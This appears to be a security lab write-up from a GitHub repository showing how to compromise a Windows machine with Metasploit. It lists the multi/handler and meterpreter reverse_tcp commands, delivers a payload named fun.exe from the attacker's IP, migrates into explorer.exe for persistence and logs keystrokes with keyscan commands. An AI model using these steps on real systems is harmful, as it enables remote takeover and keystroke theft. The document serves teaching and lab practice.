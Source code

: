 <img width="874" alt="image" src="https://github.com/user-attachments/assets/040700eb-7642-4493-a10b-d86426b48140">

Invoke msfconsole:

<img width="602" alt="image" src="https://github.com/user-attachments/assets/68b5c816-db23-4fe9-852a-ff1b57819edd">

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

<img width="827" alt="image" src="https://github.com/user-attachments/assets/b256e88b-fdb7-4604-a3dc-f409383e0d2e">

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

<img width="589" alt="image" src="https://github.com/user-attachments/assets/91c9967a-99bf-4db0-9d31-ad8ee165c7f6">

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.4/fun.exe The file "fun.exe" downloads.

<img width="368" alt="image" src="https://github.com/user-attachments/assets/1a211cb7-e49c-4dfb-a4eb-9914aa5fe3dc">


Bypass any warning boxes, double-click the file, and allow it to run.

<img width="370" alt="image" src="https://github.com/user-attachments/assets/ae00f0c5-39d5-4717-a921-4f9b5a386475">


On kali give the command exploit

<img width="577" alt="image" src="https://github.com/user-attachments/assets/4f20f78f-270f-47f3-8176-4a26ed593b9e">

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

<img width="857" alt="image" src="https://github.com/user-attachments/assets/37f8c6c2-888b-4d46-a447-89c291975d3c">

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

<img width="781" alt="image" src="https://github.com/user-attachments/assets/0aa5dfee-8bf2-4683-999b-c0fb8cc13b14">
<img width="619" alt="image" src="https://github.com/user-attachments/assets/8c6078c0-ec91-46c7-8a9e-de53239c0e24">


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump Shows the keystrokes captured so far 

![image](https://github.com/user-attachments/assets/ae4261ce-8ebe-4f5e-ae04-89afacdfeeb4)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
